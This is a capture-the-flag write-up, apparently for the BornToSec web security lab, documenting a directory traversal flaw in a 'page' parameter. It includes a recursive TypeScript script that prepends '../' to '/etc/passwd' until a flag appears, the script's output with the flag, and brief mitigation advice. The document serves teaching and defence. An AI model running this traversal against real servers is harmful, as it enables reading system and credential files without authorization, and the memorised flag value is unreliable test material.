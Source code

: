 # Directoy traversal breach

## How we found the breach

Sources:

[portswigger →](https://portswigger.net/web-security/file-path-traversal)

[owasp →](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Cookie%3A%20TEMPLATE%3D../../../../../../../../../etc/passwd)

[infosecinstitute →](https://resources.infosecinstitute.com/topic/php-lab-file-inclusion-attacks/)

From the website's home page, after pressing the `Sign In` button we're redirected to `http://IP/?page=signin`.

Depending on how the server handles the params parsing we could pass filename containg absolute paths to other file from the server file system.

A commonly hacked sensitive file is the `/etc/psswd` containing a trace of every computer registered user.

[More information on /etc/passwd →](https://www.ibm.com/docs/bg/aix/7.2?topic=passwords-using-etcpasswd-file)

### Testing the /etc/passwd access

By hitting `http://IP/?page=signin` the server returns a page displaying an alert modal containing the label `WTF`

```html
<script>alert('Wtf ?');</script><!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script 
```

We can see that the server append a script tag on the begining of the page.

We need to dig deeper, considering that the served page could be located recursively anywhere in folders.

The required file path coudld have infinite number of `..`, this is why we'll need to code a small tool.

### The script

The following script will download the returned page for any `../etc/psswd` combination until he found within the first script tag the string `flag`. 

Note: This script assumes that the server will send back the flag in the first script tag, and even more that the flag will be displayed using the `flag` appelation.

```ts
// @ts-check
import got from 'got'
import * as cheerio from 'cheerio'

const searchedFile = `/etc/passwd`
const baseUrl = `http://192.168.56.101/?page=`

async function traverseDirectory(query) {

    const url = baseUrl + query;
    const htmlPage = await got(url).text()

    const $ = cheerio.load(htmlPage)
    const firstScriptTag = $('script').first().text();

    if (firstScriptTag.match(/flag/)) {
        console.log(firstScriptTag)
        return
    } else {
        console.log(firstScriptTag)
        const newQuery = `../${query}`
        return traverseDirectory(newQuery)
    }
}

await traverseDirectory(searchedFile)
```
By running the script we get the below output:

```bash
node script.js 

alert('Wtf ?');
alert('Wtf ?');
alert('Wrong..');
alert('Nope..');
alert('Almost.');
alert('Still nope..');
alert('Nope..');
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```

## How to exploit the breach

By being able to browse the server file system the hacker could steal any kind of sensitive information.
He could also be able to execute previously uploaded script inside the server file tree

[See file upload breach →](../../php_script_as_jpg_metadata_file_upload_breach/Ressources/Explanations.md)

## How to avoid the breach

To avoid this breach is kinda the same thing as for the [Redirect securyt breach](../../mocking_referer_and_user_agent_curl_breach/Ressources/Explanations.md). The server should not be passing user-supplied input to the filesystem.

Either if it's necessary the server should be validating the input, using a `whitelist` `escaping` the received path.